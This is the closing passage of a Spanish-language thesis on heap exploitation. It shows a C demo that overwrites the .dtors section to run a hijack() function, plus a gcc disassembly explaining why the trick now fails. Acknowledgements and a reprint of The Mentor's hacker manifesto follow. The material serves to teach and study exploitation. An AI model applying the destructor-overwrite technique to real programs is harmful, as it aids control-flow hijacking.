En cambio, actualmente si se intenta sobrescribir la secci�n .dtors de un c�digo que no tenga declarado un destructor, la ejecuci�n del c�digo destructor fraudulento ser� inviable. En el C�digo \ref{code:ov_dtors_without_dtor} se muestra un c�digo sin un destructor declarado, y en el C�digo \ref{out:destructor_ov_fail} se muestra como, a diferencia de lo que se ha mostrado anteriormente, esta vez no se ejecuta el c�digo de la funci�n |hijack()|. \bigskip

\lstset{language=C, caption=Sobrescribiendo la secci�n .dtors sin un destructor declarado , label=code:ov_dtors_without_dtor}
\begin{lstlisting}
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <sys/mman.h>

void hijack(void);

int main(void) {

        printf("Primero se ejecuta el main.\n");

        /* Obteniendo el tamano de pagina de memoria del sistema */
        int pagesize = sysconf(_SC_PAGE_SIZE);
        if ( pagesize == -1) {
                perror("[-] Page size could not be obtained");
                exit(EXIT_FAILURE);
        }

        /* Poniendo permisos de escritura en la seccion .dtors */
        mprotect((void*)0x8049000, pagesize, PROT_WRITE);
        unsigned int * dtr_section = (unsigned int *)(0x8049f18 + 0x4);
        *dtr_section = (unsigned int) &hijack;
        return 0;
}

void hijack(void) {
        printf("Hijack\n");
}
\end{lstlisting}

\begin{listing}[style=consola, caption=Sobrescritura no realizada, label=out:destructor_ov_fail]
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes$ gcc sin_destructor.c -o sin_destructor -g
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes$ ./sin_destructor 
Primero se ejecuta el main.
\end{listing}

Como se puede ver, la l�nea ''Hijack'' ya no se muestra por pantalla, lo que significa que la secci�n .dtors no se ha sobrescrito.\\
Esto se debe a que en alg�n momento de su historia, el compilador \textit{gcc} a�adi� una directiva nueva en la funci�n que se encargaba de ejecutar los destructores. El C�digo \ref{out:objdump_dtor_aux} muestra las instrucciones de dicha funci�n.\bigskip

\begin{listing}[style=consola, caption=Desensamblado de \_\_do\_global\_dtors\_aux, label=out:objdump_dtor_aux]
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes$ objdump -M intel -d --start-address=0x08048400 --stop-address=0x8048459  sin_destructor

sin_destructor:     file format elf32-i386


Disassembly of section .text:

08048400 <__do_global_dtors_aux>:
 8048400:	55                   	push   ebp
 8048401:	89 e5                	mov    ebp,esp
 8048403:	53                   	push   ebx
 8048404:	83 ec 04             	sub    esp,0x4
 8048407:	80 3d 24 a0 04 08 00 	cmp    BYTE PTR ds:0x804a024,0x0
 804840e:	75 3f                	jne    804844f <__do_global_dtors_aux+0x4f>
 8048410:	a1 28 a0 04 08       	mov    eax,ds:0x804a028
 8048415:	bb 20 9f 04 08       	mov    ebx,0x8049f20
 804841a:	81 eb 1c 9f 04 08    	sub    ebx,0x8049f1c
 8048420:	c1 fb 02             	sar    ebx,0x2
 8048423:	83 eb 01             	sub    ebx,0x1
 8048426:	39 d8                	cmp    eax,ebx
 8048428:	73 1e                	jae    8048448 <__do_global_dtors_aux+0x48>
 804842a:	8d b6 00 00 00 00    	lea    esi,[esi+0x0]
 8048430:	83 c0 01             	add    eax,0x1
 8048433:	a3 28 a0 04 08       	mov    ds:0x804a028,eax
 8048438:	ff 14 85 1c 9f 04 08 	call   DWORD PTR [eax*4+0x8049f1c]
 804843f:	a1 28 a0 04 08       	mov    eax,ds:0x804a028
 8048444:	39 d8                	cmp    eax,ebx
 8048446:	72 e8                	jb     8048430 <__do_global_dtors_aux+0x30>
 8048448:	c6 05 24 a0 04 08 01 	mov    BYTE PTR ds:0x804a024,0x1
 804844f:	83 c4 04             	add    esp,0x4
 8048452:	5b                   	pop    ebx
 8048453:	5d                   	pop    ebp
 8048454:	c3                   	ret    
 8048455:	8d 74 26 00          	lea    esi,[esi+eiz*1+0x0]
newlog@ubuntu:~/Documents/TFM/Heap/heap_exploiting/codes$ 
\end{listing}

Las instrucciones relevantes son las siguientes: \bigskip

\lstset{language=C, caption=Instrucciones relevantes en \_\_do\_global\_dtors\_aux , label=code:dtor_aux_rel}
\begin{lstlisting}
 8048410:	a1 28 a0 04 08       	mov    eax,ds:0x804a028
 8048415:	bb 20 9f 04 08       	mov    ebx,0x8049f20
 804841a:	81 eb 1c 9f 04 08    	sub    ebx,0x8049f1c
 8048420:	c1 fb 02             	sar    ebx,0x2
 8048423:	83 eb 01             	sub    ebx,0x1
 8048426:	39 d8                	cmp    eax,ebx
 8048428:	73 1e                	jae    8048448 <__do_global_dtors_aux+0x48>
\end{lstlisting}

Debido al c�digo anterior y al flujo de ejecuci�n, la primera l�nea del C�digo \ref{code:dtor_aux_rel} hace que en el registro \textit{eax} se almacene un 0. En la l�nea 2, en \textit{ebx} se almacena la direcci�n final de la secci�n .dtors con lo que gracias a la resta de 0x8049f1c en la l�nea 4, que es el inicio de la secci�n .dtors se obtiene el tama�o de dicha secci�n. Destacar que el tama�o de la secci�n .dtors sin almacenar ning�n destructor es de 4 bytes, debido al formato comentado anteriormente.\\
En la l�nea 5, el contenido de \textit{ebx}, que es el tama�o de la secci�n .dtors + 4, se divide entre 4. Debido a que en una arquitectura de 32 bits los punteros a funciones ocupan 4 bytes, con esta divisi�n se obtendr� el n�mero de punteros a funci�n que existen en la secci�n .dtors m�s uno, o sea, el n�mero de destructores m�s uno. \\
A continuaci�n, para obtener el n�mero real de destructores, se le resta 1 al registro \textit{ebx}.\\
Con la l�nea 6, se compara el resultado de \textit{ebx} con \textit{eax}, si son iguales, o sea, si su contenido es 0, se salta al final de la funci�n |__do_global_dtors_aux|, con lo que ning�n destructor es ejecutado. \bigskip

De este modo se evita la ejecuci�n de destructores si no est�n declarados en el c�digo fuente. \bigskip

\vspace*{2em}

Debido a todas estas medidas de seguridad aplicadas con el paso de los a�os, los art�culos que tratan la sobrescritura de la secci�n .dtors, siempre y cuando no tengan en cuenta estos detalles, han quedado totalmente obsoletos.


\pagebreak

\section*{Agradecimientos}

\vspace*{6em}

\begin{tabbing}
A mi \= \textbf{madre}, por ser capaz de leer toda esta investigaci�n sin entender \\ \> lo m�s m�nimo y aun as� seguir leyendo movida s�lo por el amor de madre.\\
A mi \textbf{novia}, por intentar fascinarse con el mundo del \textit{hacking} y querer entender \\ \> conceptos que la mayor�a de inform�ticos desconocen.\\
A \textbf{vlan7}, por haber cre�do y seguir creyendo en una idea, aun cuando no ha \\ \> dado los frutos deseados.\\
A \textbf{Wadalbertia}, fortaleza digital que me ha dado cobijo durante a�os. Y a su\\ \> genial gente que a pesar de su genialidad, siguen ayudando a aquellos que\\ \> a�n carecen de tal genialidad.\\
\end{tabbing}
\vspace*{1em}
\begin{center}
A todos aquellos que conocen el verdadero significado de \textit{hacker}.
\end{center}

\pagebreak

\fontsize{7}{8.4}
\begin{center}
\begin{varwidth}{\textwidth}
\begin{verbatim}
    ==Phrack Inc.==

                    Volume One, Issue 7, Phile 3 of 10

=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
The following was written shortly after my arrest...

                       The Conscience of a Hacker

                                      by

                               +++The Mentor+++

                          Written on January 8, 1986
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

        Another one got caught today, it's all over the papers.  "Teenager
Arrested in Computer Crime Scandal", "Hacker Arrested after Bank Tampering"...
        Damn kids.  They're all alike.

        But did you, in your three-piece psychology and 1950's technobrain,
ever take a look behind the eyes of the hacker?  Did you ever wonder what
made him tick, what forces shaped him, what may have molded him?
        I am a hacker, enter my world...
        Mine is a world that begins with school... I'm smarter than most of
the other kids, this crap they teach us bores me...
        Damn underachiever.  They're all alike.

        I'm in junior high or high school.  I've listened to teachers explain
for the fifteenth time how to reduce a fraction.  I understand it.  "No, Ms.
Smith, I didn't show my work.  I did it in my head..."
        Damn kid.  Probably copied it.  They're all alike.

        I made a discovery today.  I found a computer.  Wait a second, this is
cool.  It does what I want it to.  If it makes a mistake, it's because I
screwed it up.  Not because it doesn't like me...
                Or feels threatened by me...
                Or thinks I'm a smart ass...
                Or doesn't like teaching and shouldn't be here...
        Damn kid.  All he does is play games.  They're all alike.

        And then it happened... a door opened to a world... rushing through
the phone line like heroin through an addict's veins, an electronic pulse is
sent out, a refuge from the day-to-day incompetencies is sought... a board is
found.
        "This is it... this is where I belong..."
        I know everyone here... even if I've never met them, never talked to
them, may never hear from them again... I know you all...
        Damn kid.  Tying up the phone line again.  They're all alike...

        You bet your ass we're all alike... we've been spoon-fed baby food at
school when we hungered for steak... the bits of meat that you did let slip
through were pre-chewed and tasteless.  We've been dominated by sadists, or
ignored by the apathetic.  The few that had something to teach found us will-
ing pupils, but those few are like drops of water in the desert.

        This is our world now... the world of the electron and the switch, the
beauty of the baud.  We make use of a service already existing without paying
for what could be dirt-cheap if it wasn't run by profiteering gluttons, and
you call us criminals.  We explore... and you call us criminals.  We seek
after knowledge... and you call us criminals.  We exist without skin color,
without nationality, without religious bias... and you call us criminals.
You build atomic bombs, you wage wars, you murder, cheat, and lie to us
and try to make us believe it's for our own good, yet we're the criminals.

        Yes, I am a criminal.  My crime is that of curiosity.  My crime is
that of judging people by what they say and think, not what they look like.
My crime is that of outsmarting you, something that you will never forgive me
for.

        I am a hacker, and this is my manifesto.  You may stop this individual,
but you can't stop us all... after all, we're all alike.

                               +++The Mentor+++
\end{verbatim}
\end{varwidth}
\end{center}

\end{document}